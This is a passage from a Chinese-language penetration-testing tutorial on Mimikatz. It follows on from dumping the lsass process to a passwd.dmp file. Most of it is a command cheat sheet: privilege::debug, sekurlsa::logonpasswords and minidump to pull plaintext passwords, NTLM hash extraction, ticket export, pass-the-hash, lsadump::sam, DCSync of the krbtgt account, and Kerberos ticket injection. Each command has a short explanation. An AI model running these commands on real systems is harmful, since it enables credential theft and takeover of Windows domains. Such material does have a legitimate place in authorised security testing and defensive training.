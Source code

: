 
正常我们是打不开 passwd.dmp 这个文件的，要是以记事本打开也都是乱码。这时，我们就要用到另一个小工具 Mimikatz 进行对 passwd.dmp 进行读取

### ②Mimikatz

Mimikatz 是法国⼈ benjamin 开发的⼀款功能强⼤的轻量级调试⼯具，本意是⽤来个⼈测试，但由于其功能强⼤，能够直接读取 WindowsXP-2012 等操作系统的明⽂密码⽽闻名于渗透测试，可以说是渗透必备⼯具。

#### 1、相关参数

因为 mimikatz 参数较多，这⾥只介绍常⽤的参数。

```plain
mimikatz # ::    显示帮助指令
mimikatz # cls    清空
mimikatz # log      记录所得到的信息
mimikatz # hostname         查看主机名
```

-   **privilege 模块**

(需要管理员权限的命令行窗口才可操作)

```plain
mimikatz # privilege::debug      提升 mimikatz 权限（通过 mimkatz 自带的漏洞脚本对当前设备进行攻击）
```

-   **sekurlsa 模块**

```plain
1、提取当前系统中已登录用户的密码（该方法需要先提升 mimikatz 权限）
mimikatz # sekurlsa::logonpasswords     获取所有账户密码（比 procdump 的使用更简单）
2、抓取用户 NTLM 哈希 (读取内存的 HASH-列出 LM 和 NTML 凭证)
mimikatz # sekurlsa::msv
3、加载 dmp 文件，并导出其中的明文密码
mimikatz # sekurlsa::minidump passwd.dmp    切换环境
mimikatz # sekurlsa::logonpasswords full    列出所有可用的凭据
4、导出 lsass.exe 进程中所有的票据
mimikatz # sekurlsa::tickets /export
5、列出 kerberos 凭证
mimikatz # sekurlsa::kerberos    获取 kerberos 认证信息 (账户密码等)-域内
6、pass-the-hash 哈希传递
mimikatz # sekurlsa::pth
```

-   **lsadump 模块**

```plain
mimikatz # lsadump::sam     查看 sam 文件内容获取用户名和 NTLM hash
mimikatz # lsadump::secrets      获取当前用户密码
mimikatz # lsadump::dcsync /user:krbtgt     获取域控上 krbtgt ⽤户信息
```

-   **kerberos 模块**

```plain
1、列出系统中的票据
mimikatz # kerberos::list       列出票据
mimikatz # kerberos::tgt        列出票据        
2、清除系统中的票据
mimikatz # kerberos::purge      清除票据
3、导入票据到系统中
mimikatz # kerberos::ptc 票据路径
```
